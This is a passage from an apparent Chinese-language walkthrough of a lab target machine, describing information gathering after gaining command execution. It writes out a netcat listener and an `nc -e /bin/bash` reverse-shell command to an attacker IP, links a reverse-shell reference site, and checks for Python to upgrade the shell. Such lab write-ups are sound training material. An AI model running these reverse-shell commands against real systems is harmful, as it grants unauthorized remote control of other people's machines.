 
# 靶机内信息收集

查看靶机内的用户

![](./pic-9/10.jpg)

为了后续方便，还是获取一个终端为好，不过这里只是命令执行，所以需要进行反弹shell。

我这里是测试发现直接使用`bash`反弹不成功，然后使用的`nc`，当然反弹的方法很多，`https://forum.ywhack.com/shell.php`

```shell
#kali开启监听
nc -lvvp 9999

#靶机把bash反弹
nc -e /bin/bash 192.168.1.16 9999
```

![](./pic-9/11.jpg)

然后使用`python`获取一个终端，注意，这里是`python2`，因为之前使用命令测试安装的版本

```shell
dpkg -l | grep python
或者
compgen -c | grep python  //靶机没有这个命令
```
